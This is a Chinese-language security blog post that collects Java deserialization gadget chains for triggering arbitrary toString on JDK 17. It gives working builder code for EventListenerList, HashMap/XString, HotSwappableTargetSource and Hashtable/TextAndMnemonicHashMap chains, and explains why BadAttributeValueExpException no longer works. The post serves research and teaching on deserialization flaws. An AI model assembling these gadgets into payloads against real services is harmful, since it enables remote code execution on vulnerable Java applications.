




书接上文，我们讲到JDK17的强封装会导致我们的反射调用受到限制，只有exports声明包名的类，才能使用，只有opens声明包名的类，才能反射其私有属性。

但是对于反射私有属性，我们前辈也发明出了修改当前运行类的模块偏移的办法。这也给高版本的反射提供了另一思路

触发toString的链子还是蛮多的，但高版本下难免会有差异，本文对高版本下的触发toString的Gadget进行了一些整合以及说明。

# EventListenerList触发toString

之前分析的文章：https://wanth3f1ag.top/2025/12/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BEventListenerList%E8%A7%A6%E5%8F%91%E4%BB%BB%E6%84%8FtoString/

这个链子是很常见的，并且也是JDK17高版本里面触发toString的首选，跟完源代码后发现其实和JDK8没啥区别

## 触发toString的工具方法

```java
    //获取到EventListenerList实例对象
    public static EventListenerList getEventListenerList(Object obj) throws Exception{
        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();

        //从UndoManager父类CompoundEdit的edits中取出Vector对象，并将恶意类通过add添加
        Vector vector = (Vector) Utils.getFieldValue(undoManager,"edits");
        vector.add(obj);

        Utils.setFieldValue(eventListenerList,"listenerList", new Object[]{Class.class, undoManager});
        return eventListenerList;
    }
```

将返回的eventListenerList进行序列化和反序列化操作就能触发toString了

## 触发Gadget

```java
EventListenerList#readObject()->
EventListenerList#add()->
    UndoManager#toString()->
        CompoundEdit#toString()->
            Vector#toString()->
                AbstractCollection#toString()->
                    StringBuilder#append()->
                        String#valueOf()->
							obj#toString()任意类toString
```

# BadAttributeValueExpException触发toString

这条链子想必大家都不陌生，无论是CC5链还是fastjson原生链或者是Jackson原生链都用到了他

## 触发toString的工具方法

直接实例化一个BadAttributeValueExpException对象并传入val为需要触发toString的对象就行了

```java
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
```

其实这个链子只适用于JDK8-14中，换成JDK15以上就不行了，这是为什么呢？

## 链子为何失效了

在JDK7中BadAttributeValueExpException并没有实现自己的readObject



在JDK8中的有了自己的BadAttributeValueExpException#readObject

```java
private Object val;   
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
```

此时val是一个Object对象

直到JDK15中，val变成了String类型的字段



所以大于JDK14后的版本这条链子也就无效了

# HashMap+XString触发toString

这个链子在Fastjson原生反序列化里面也讲过：https://wanth3f1ag.top/2025/07/07/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BFastjson%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#%E8%A7%A6%E5%8F%91toString-%E6%96%B9%E6%B3%952

## 触发toString的工具方法

```java
    //HashMap+XString触发toString
    /*
    HashMap#readObject() -> XString#equals() -> 任意调#toString()
    make map1's hashCode == map2's
    map3#readObject
        map3#put(map1,1)
        map3#put(map2,2)
            if map1's hashCode == map2's :
                map2#equals(map1)
                    map2.xString#equals(obj) // obj = map1.get(zZ)
                        obj.toString
     */
    public static HashMap get_HashMap_XString(Object obj)throws Exception{
        Object xString = Utils.createWithoutConstructor(Class.forName("com.sun.org.apache.xpath.internal.objects.XString"));
        Utils.setFieldValue(xString,"m_obj","");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", xString);
        map1.put("zZ",obj);
        map2.put("zZ", xString);
        HashMap map3 = new HashMap();
        map3.put(map1,1);
        map3.put(map2,2);

        map2.put("yy", obj);
        return map3;
    }
```

将需要触发toString的对象传入get_HashMap_XString中，并将返回的HashMap进行序列化和反序列化

## 触发Gadget

```java
HashMap#readObject()->
    HashMap#putVal()->
    	XString#equals()->
    		obj2#toString()
```

# HotSwappableTargetSource+xString触发toString

其实在ROME原生链也说过：http://localhost:4000/2025/11/18/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BROME%E5%8E%9F%E7%94%9F%E9%93%BE/?highlight=xstring%E8%A7%A6%E5%8F%91#HotSwappableTargetSource-xString%E8%A7%A6%E5%8F%91toString

这是Spring原生的一条触发toString的链子，需要导入Spring的aop依赖

```xml
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.3.23</version>
</dependency>
```

其实本质上和上面的HashMap+XString触发没区别，只不过中间多了HotSwappableTargetSource#equals的点

## 触发toString的工具方法

```java
    //HashMap+HotSwappableTargetSource+xString触发toString
    public static HashMap get_HashMap_HotSwappableTargetSource_xString(Object obj)throws Exception{
        Object xString = Utils.createWithoutConstructor(Class.forName("com.sun.org.apache.xpath.internal.objects.XString"));
        Utils.setFieldValue(xString,"m_obj","");
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(obj);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(xString);
        HashMap hashmap = new HashMap();
        hashmap.put(hotSwappableTargetSource1,hotSwappableTargetSource1);
        hashmap.put(hotSwappableTargetSource2,hotSwappableTargetSource2);
        return hashmap;
    }
```

也是一样，将需要触发toString的对象传入obj，并序列化和反序列化返回的hashmap

## 触发Gadget

```java
HashMap#readObject() -> 
        HotSwappableTargetSource#equals() -> 
            XString#equals() -> 
                任意调#toString() 
```

# hashtable+TextAndMnemonicHashMap触发toString

这个倒是第一次见，分析一下

## 链子分析

先看到hashtable#readObject()

### hashtable#readObject()

```java
    @java.io.Serial
    private void readObject(ObjectInputStream s)
            throws IOException, ClassNotFoundException {
        readHashtable(s);
    }
    void readHashtable(ObjectInputStream s)
            throws IOException, ClassNotFoundException {

        ObjectInputStream.GetField fields = s.readFields();

        // Read and validate loadFactor (ignore threshold - it will be re-computed)
        float lf = fields.get("loadFactor", 0.75f);
        if (lf <= 0 || Float.isNaN(lf))
            throw new StreamCorruptedException("Illegal load factor: " + lf);
        lf = Math.min(Math.max(0.25f, lf), 4.0f);

        // Read the original length of the array and number of elements
        int origlength = s.readInt();
        int elements = s.readInt();

        // Validate # of elements
        if (elements < 0)
            throw new StreamCorruptedException("Illegal # of Elements: " + elements);

        // Clamp original length to be more than elements / loadFactor
        // (this is the invariant enforced with auto-growth)
        origlength = Math.max(origlength, (int)(elements / lf) + 1);

        // Compute new length with a bit of room 5% + 3 to grow but
        // no larger than the clamped original length.  Make the length
        // odd if it's large enough, this helps distribute the entries.
        // Guard against the length ending up zero, that's not valid.
        int length = (int)((elements + elements / 20) / lf) + 3;
        if (length > elements && (length & 1) == 0)
            length--;
        length = Math.min(length, origlength);

        if (length < 0) { // overflow
            length = origlength;
        }

        // Check Map.Entry[].class since it's the nearest public type to
        // what we're actually creating.
        SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Map.Entry[].class, length);
        Hashtable.UnsafeHolder.putLoadFactor(this, lf);
        table = new Entry<?,?>[length];
        threshold = (int)Math.min(length * lf, MAX_ARRAY_SIZE + 1);
        count = 0;

        // Read the number of elements and then all the key/value objects
        for (; elements > 0; elements--) {
            @SuppressWarnings("unchecked")
                K key = (K)s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V)s.readObject();
            // sync is eliminated for performance
            reconstitutionPut(table, key, value);
        }
    }
```

会创建一个桶哈希数组，并遍历elements序列化时写入的 entry 数量调用reconstitutionPut放入哈希表，进入reconstitutionPut函数

### hashtable#reconstitutionPut()



和HashMap的putval一样，链子是调用到AbstractMap.equals

### AbstractMap#equals()



设置m为一个TextAndMnemonicHashMap，这样就能调用到TextAndMnemonicHashMap的get方法

### TextAndMnemonicHashMap#get()


key是可控的，由此能触发任意toString了

### 触发toString的工具方法

```java
    //hashtable+TextAndMnemonicHashMap触发toString
    public static Hashtable get_Hashtable_TextAndMnemonicHashMap(Object obj)throws Exception{
        Map tHashMap1 = (HashMap) Utils.createWithoutConstructor(Class.forName("javax.swing.UIDefaults$TextAndMnemonicHashMap"));
        Map tHashMap2 = (HashMap) Utils.createWithoutConstructor(Class.forName("javax.swing.UIDefaults$TextAndMnemonicHashMap"));
        tHashMap1.put(obj,"yy");
        tHashMap2.put(obj,"zZ");
        Utils.setFieldValue(tHashMap1,"loadFactor",1);
        Utils.setFieldValue(tHashMap2,"loadFactor",1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(tHashMap1,1);
        hashtable.put(tHashMap2,1);

        tHashMap1.put(obj, null);
        tHashMap2.put(obj, null);
        return hashtable;
    }
```

用法是一样的

### 触发Gadget

```java
hashtable#readObject()->
    hashtable#reconstitutionPut()->
        AbstractMap#equals()->
            TextAndMnemonicHashMap#get()->
                obj#toString()
```
